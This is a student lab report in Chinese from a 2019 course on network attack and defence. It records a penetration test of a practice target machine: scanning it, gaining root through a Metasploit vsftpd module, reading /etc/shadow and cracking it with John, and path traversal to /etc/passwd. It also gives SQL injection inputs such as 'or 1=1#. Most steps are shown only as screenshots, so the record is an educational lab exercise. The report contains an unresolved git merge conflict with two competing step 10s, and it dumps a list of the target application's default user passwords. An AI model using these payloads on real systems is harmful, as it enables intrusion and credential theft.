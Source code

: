 
# <center>《网络攻防实战》实验报告</center>

### **第2次实验：渗透测试**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10.14

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

1. 使用netdiscover扫描地址，找到若干个地址

   ![](img/netdiscover.png)

2. 用nmap扫描找到的IP，发现192.168.8.6这个IP下开放的端口最多，可以确定是Linux靶机

   ![](img/nmap.png)

3. 用nc进行全连接端口扫描

   ![](img/ncport.png)

4. 用nmap扫描靶机的服务

   ![](img/nmapserver.png)

   ![](img/nmapserver2.png)

5. nmap扫描靶机的操作系统

   ![](img/os.png)

6. 连接25端口，判断是否存在root的用户帐号

   ![](img/smtp.png)

7. 在metasploit中查找vsftpd的模块，调用并且修改地址为靶机，进行渗透。发现渗透成功并且获得root权限。用`cat /etc/shadow`获取密码密文后，用John暴力破解

   ![](img/vsftpd.png)

   ![](img/john.png)

8. 访问`http://192.168.8.6/mutillidae/index.php?page=/etc/passwd`地址可以访问靶机上的`/etc/passwd`文件

   ![](img/mutilllidae.png)

9. 在register页面里，先在signature输入框输入`' #`然后提交表单，引发错误，可以看到sql的语句中使用了`INSERT INTO ... VALUES...`语句，那么就可以实现一次插入多条记录。在signature中输入`'), ('admin', 'admin', '') #`可以实现同事插入一条admin的记录，就做到了修改admin的密码，可以以admin登录了

   ![](img/register1.png)

   ![](img/register2.png)

<<<<<<< HEAD
10. 在sql注入提取用户数据界面, 输入命令"'or 1=1#"绕过验证,获取用户信息
   Username=admin
Password=adminpass
Signature=Monkey!

Username=adrian
Password=somepassword
Signature=Zombie Films Rock!

Username=john
Password=monkey
Signature=I like the smell of confunk

Username=jeremy
Password=password
Signature=d1373 1337 speak

Username=bryce
Password=password
Signature=I Love SANS

Username=samurai
Password=samurai
Signature=Carving Fools

Username=jim
Password=password
Signature=Jim Rome is Burning

Username=bobby
Password=password
Signature=Hank is my dad

Username=simba
Password=password
Signature=I am a cat

Username=dreveil
Password=password
Signature=Preparation H

Username=scotty
Password=password
Signature=Scotty Do

Username=cal
Password=password
Signature=Go Wildcats

Username=john
Password=password
Signature=Do the Duggie!

Username=kevin
Password=42
Signature=Doug Adams rocks

Username=dave
Password=set
Signature=Bet on S.E.T. FTW

Username=ed
Password=pentest
Signature=Commandline KungFu anyone?
=======
10. 在add-to-blog页面，插入语句使用的也是`VALUES`，所以可以利用来，以任意的身份发表文字

    ![](img/addtoblog1.png)

    ![](img/addtoblog2.png)

    ![](img/addtoblog3.png)
>>>>>>> 4c14bb6b70fbc41ccb0c3716bbfd9684e3106bc5

## 三、 实验结果

漏洞索引：

OSVDB (73573)

## 四、 实验中遇到的问题及解决方案

1. 用nmap对smb扫描时，出现脚本运行错误

   ![](img/nmapsmb.png)

## 五、 组员分工

给出组员在完成这个实验中的具体分工情况。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）